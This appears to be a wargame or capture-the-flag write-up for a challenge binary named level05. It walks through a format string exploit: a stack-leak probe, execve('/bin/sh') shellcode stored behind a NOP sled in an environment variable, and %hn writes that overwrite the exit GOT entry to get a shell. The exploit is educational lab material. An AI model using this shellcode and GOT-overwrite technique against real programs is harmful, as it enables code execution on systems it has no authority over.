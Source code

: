
# Level05 - Exploiting Format String Vulnerability to Execute Shellcode

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level05
coucou
coucou
```

The program prompts for input twice.

## Step 2: Analyzing with GDB

To understand the program, let's analyze it using GDB (GNU Debugger). The program uses `fgets()` to read input into a buffer of 100 characters, converts the input to lowercase, and finally calls `printf()` with the buffer as an argument:

```assembly
0x08048500 <+188>: lea    eax,[esp+0x28]   ; buffer
0x08048504 <+192>: mov    DWORD PTR [esp],eax
0x08048507 <+195>: call   0x8048340 <printf@plt>
```

This setup introduces a format string vulnerability.

## Step 3: Exploiting the Format String

Test the vulnerability by printing stack values:

```bash
$ python -c 'print "BBBB" + "-%x" * 12' | ./level05
bbbb-64-f7fcfac0-f7ec3af9-ffffd5ff-ffffd5fe-0-ffffffff-ffffd684-f7fdb000-62626262-2d78252d-252d7825
```

Our input appears at the 10th position on the stack.

## Step 4: Injecting Shellcode

To exploit this, store shellcode in an environment variable and inject it at the 10th position using the format string.

### Shellcode

Use the following shellcode:

```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

### Find the Address of the Payload

Store the shellcode in an environment variable:

```bash
$ env -i PAYLOAD=$(python -c 'print "\x90"*1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"') gdb level05
(gdb) x/200s environ
```

### Locate the Environment Variable Address

Identify the address of the nopesled to jump to, e.g., `0xffffdc59`.

## Step 5: Overwriting the GOT Entry

We need to overwrite a GOT entry. Since the program ends with `exit()`, we can overwrite it:

```assembly
0x0804850c <+200>: mov    DWORD PTR [esp],0x0
0x08048513 <+207>: call   0x8048370 <exit@plt>
```

The GOT address of `exit` is `0x80497e0`.

### Building the Exploit

Split the address `0xffffdc59` into two writes for the GOT:

1. First part: `dc59` (56409 - 8 bytes for addresses).
2. Second part: `ffff` (65535 - remaining characters).

Construct the payload:

```bash
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56401d" + "%10$hn" + "%9126d" + "%11$hn"'
```

## Step 6: Running the Exploit

Run the exploit with the environment variable:

```bash
$ (python -c 'print ("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56401d" + "%10$hn" + "%9126d" + "%11$hn"'; cat) | env -i PAYLOAD=$(python -c 'print "\x90"*1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level05
whoami
level06
```

## Summary

- The program has a format string vulnerability that allows arbitrary memory writes.
- By injecting shellcode into an environment variable and using the format string, we can hijack execution.
- Overwriting the GOT entry for `exit` with the shellcode address enables us to execute arbitrary code.

This demonstrates how format string vulnerabilities can lead to full code execution if properly exploited.
